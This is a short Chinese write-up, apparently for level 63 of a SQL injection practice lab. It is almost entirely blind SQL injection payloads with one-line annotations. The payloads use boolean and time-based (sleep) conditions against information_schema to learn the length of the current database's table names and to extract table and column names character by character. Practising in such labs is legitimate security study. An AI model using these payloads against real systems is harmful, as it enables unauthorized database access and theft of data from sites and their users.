

# 第六十三关
'and length((select table_name from information_schema.tables where table_schema=database()))>1 -- qwe（布尔盲注得出表长度）

'and if(length((select table_name from information_schema.tables where table_schema=database()))>1,sleep(5),1)-- qwe（时间盲注得出表长度）

'and if(substr((select table_name from information_schema.tables where table_schema=database()),1,1)='a',sleep(5),1)-- qwe（判断表的具体字符串）

'and if(substr((select column_name from information_schema.columns where table_schema=database() and table_name=上面查询出来的表),1,1)='a',sleep(5),1)-- qwe
（判断列的具体字符串）